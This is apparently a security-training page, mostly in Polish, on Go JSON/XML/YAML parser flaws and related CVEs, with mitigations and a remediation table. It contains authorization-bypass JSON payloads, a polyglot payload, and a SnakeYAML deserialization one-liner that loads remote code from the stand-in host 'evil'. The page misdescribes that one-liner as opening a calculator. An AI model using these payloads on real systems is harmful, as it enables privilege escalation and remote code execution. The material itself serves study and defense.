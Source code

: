 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Następujące problemy wykryto w Go JSON, chociaż mogą występować także w innych językach. These issues were published in [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Parsery JSON, XML i YAML w Go mają długą historię niespójności i niebezpiecznych wartości domyślnych, które można wykorzystać do **bypass authentication**, **escalate privileges**, lub **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

Celem jest wykorzystanie struktur, które pozwalają atakującemu na odczyt/zapis wrażliwych pól (np. `IsAdmin`, `Password`).

- Przykładowa struktura:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Typowe podatności

1. **Brakujący znacznik** (brak tagu = pole nadal jest parsowane domyślnie):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Nieprawidłowe użycie `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Prawidłowy sposób zablokowania pola przed (de)serializacją:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Różnice parserów

Celem jest obejście autoryzacji przez wykorzystanie tego, że różne parsery interpretują ten sam payload inaczej, np.:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. Duplicate Fields:**
Go's `encoding/json` przyjmuje **ostatnie** pole.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Inne parsery (np. Java’s Jackson) mogą wybrać **pierwszy**.

**2. Brak rozróżniania wielkości liter:**
Go nie rozróżnia wielkości liter:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Nawet sztuczki Unicode działają:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Niezgodność między usługami:**
Wyobraź sobie:
- Proxy napisany w Go
- usługa AuthZ napisana w Pythonie

Atakujący wysyła:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python widzi `UserAction` i zezwala
- Go widzi `AdminAction` i wykonuje


### Zamieszanie formatów danych (Polyglots)

Celem jest wykorzystanie systemów, które mieszają formaty (JSON/XML/YAML) lub pozostają otwarte przy błędach parsera, np.:
- **CVE-2020-16250**: HashiCorp Vault parsował JSON przy użyciu parsera XML, po tym jak STS zwrócił JSON zamiast XML.

Atakujący kontroluje:
- Nagłówek `Accept: application/json`
- Częściowa kontrola nad treścią JSON

Parser XML w Go **i tak** to sparsował i zaufał wstrzykniętej tożsamości.

- Skomponowany payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Wynik:
- **Go JSON** parser: `Action_2` (ignoruje wielkość liter + ostatni ma priorytet)
- **YAML** parser: `Action_1` (rozróżnia wielkość liter)
- **XML** parser: parsuje `"Action_3"` wewnątrz stringa

---

## Znaczące podatności parserów (2023-2025)

> Poniższe publicznie wykorzystywalne luki pokazują, że niebezpieczne parsowanie to problem wielojęzykowy — nie tylko problem Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Dotyczy: `org.yaml:snakeyaml` < **2.0** (używany przez Spring-Boot, Jenkins itp.).
* Przyczyna: `new Constructor()` deserializuje **dowolne klasy Java**, co umożliwia łańcuchy gadgetów prowadzące do zdalnego wykonania kodu.
* One-liner PoC (otworzy kalkulator na podatnym hoście):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Poprawka / Mitigacja:
1. **Zaktualizuj do ≥2.0** (domyślnie używa `SafeLoader`).
2. W starszych wersjach jawnie użyj `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Dotyczy: `libyaml` ≤0.2.5 (biblioteka C wykorzystywana przez wiele powiązań językowych).
* Problem: Wywołanie `yaml_event_delete()` dwukrotnie prowadzi do double-free, które atakujący mogą wykorzystać do DoS lub, w niektórych scenariuszach, heap exploitation.
* Status: Upstream odrzucił jako “API misuse”, ale dystrybucje Linuxa wysłały poprawioną wersję **0.2.6**, która defensywnie ustawia wskaźnik na null przy zwalnianiu.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Dotyczy: Tencent **RapidJSON** przed commitem `8269bc2` (<1.1.0-patch-22).
* Błąd: W `GenericReader::ParseNumber()` niezweryfikowane operacje arytmetyczne pozwalają atakującym skonstruować ogromne literały numeryczne, które zawijają się i uszkadzają heap — co ostatecznie umożliwia privilege-escalation, gdy powstały graf obiektów jest używany do decyzji autoryzacyjnych.

---

### 🔐 Środki zaradcze (zaktualizowane)

| Ryzyko                              | Poprawka / Rekomendacja                                 |
|-------------------------------------|------------------------------------------------------------|
| Nieznane pola (JSON)                | `decoder.DisallowUnknownFields()`                          |
| Duplikaty pól (JSON)                | ❌ Brak poprawki w stdlib — sprawdź za pomocą [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Dopasowanie ignorujące wielkość liter (Go) | ❌ Brak poprawki — zwaliduj tagi struct + wstępnie kanonizuj wejście   |
| Nieprawidłowe dane XML / XXE        | Użyj wzmocnionego parsera (`encoding/xml` + `DisallowDTD`)     |
| Nieznane klucze YAML                | `yaml.KnownFields(true)`                                   |
| **Niebezpieczna deserializacja YAML**| Użyj SafeConstructor / zaktualizuj do SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Zaktualizuj do **0.2.6** lub wydania poprawionego przez dystrybucję            |
| RapidJSON <patched commit           | Kompiluj z najnowszym RapidJSON (≥lipiec 2024)              |

## Zobacz też

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Źródła

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
